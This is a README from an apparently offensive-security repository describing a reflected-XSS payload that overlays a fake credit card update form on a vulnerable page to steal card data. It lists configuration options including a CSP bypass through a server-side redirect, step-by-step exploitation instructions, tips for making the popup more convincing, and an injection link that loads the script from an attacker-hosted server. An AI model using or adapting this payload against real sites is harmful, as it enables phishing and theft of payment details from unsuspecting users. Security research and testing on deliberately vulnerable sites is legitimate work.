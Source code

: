 # [unauthn] Credit Card Update Prompt (Phish)

<p align="justify">This payload adds HTML code as an overlay to the target web page (containing the XSS vulnerability). The code displays a Credit Card Update popup form. If blended in the application's context sufficiently, once they encounter such a prompt, most users have a (proven) tendency to blindly provide it requested information (which contributes to a higher success rate of such phishing attacks).<p>

Typical use-case scenarios:
* external network perspective (Internet)
  * public web
  * web shop
  * **NOTE**: if possible, leverage additional available functionality of the target web application to make the popup form appear (even) more convinving (e.g. using JavaScript, open the chat widget and display an appropriate phishing message to the victim user and display the form afterwards)

The payload (`ccphish.js`) supports the following options:

* no CSP bypass - issue AJAX request (i.e. client-side redirect)

  ```
  ...
  let bypassCSP = false;
  ...
  ```

* CSP bypass - issue hard redirect (uses `redir.php`; i.e. server-side redirect)

  ```
  ...
  let bypassCSP = true;
  ...
  ```

* run payload once - sets a cookie, once payload is executed; used to prevent further payload executions

  ```
  ...
  let runOnce = true;
  ...
  ```

## Test Environment

### Web Browsers (20250806)

* [x] Mozilla Firefox 141.0.2 (64-bit)
* [x] Google Chrome 139.0.7258.67 (64-bit)
* [x] Microsoft Edge 138.0.3351.121 (64-bit)

### Vulnerable Page

http://testphp.vulnweb.com/listproducts.php?cat=XSS_PAYLOAD_HERE

## Exploitation Steps

1. [setup exploit] change payload variable values (`ccphish.js`; `redir.php`)

    `attWsPhishPath` - exfiltration web server URL (i.e. scheme + FQDN + port + path; use trailing slash)

    `bypassCSP` - use/do not use CSP bypass (true/false)

    `runOnce` - execute payload only once (true/false)

    `url` - exfiltration web server URL

2. [setup exploit] setup web server (to serve the payload/redirector)

3. [social engineering attack] victim user clicks link

    ```
    http://testphp.vulnweb.com/listproducts.php?cat=<script src=http://192.168.5.5/ccphish.js></script>
    ```

    * **NOTES**:
      * `testphp.vulnweb.com` - target site
      * `192.168.5.5` - web server hosting the payload

4. [social engineering attack] victim user provides requested information

    *(attacker obtains PII data)*

5. [post exploit] attacker leverages obtained PII data

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_PII_exfil_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_PII_exfil_-_1-1.png">
    </picture>
  </kbd>
</p>

* [web browser rendering] Mozilla FireFox

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Mozilla_FireFox_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Mozilla_FireFox_-_1-1.png">
    </picture>
  </kbd>
</p>

* [web browser rendering] Google Chrome

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Google_Chrome_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Google_Chrome_-_1-1.png">
    </picture>
  </kbd>
</p>

* [web browser rendering] Microsoft Edge

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Microsoft_Edge_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CredCardPhishing/screenshots/CredCard_phish_-_web_browser_rendering_-_Microsoft_Edge_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/8d47b495-6fef-4059-b3dc-aaa31655a748

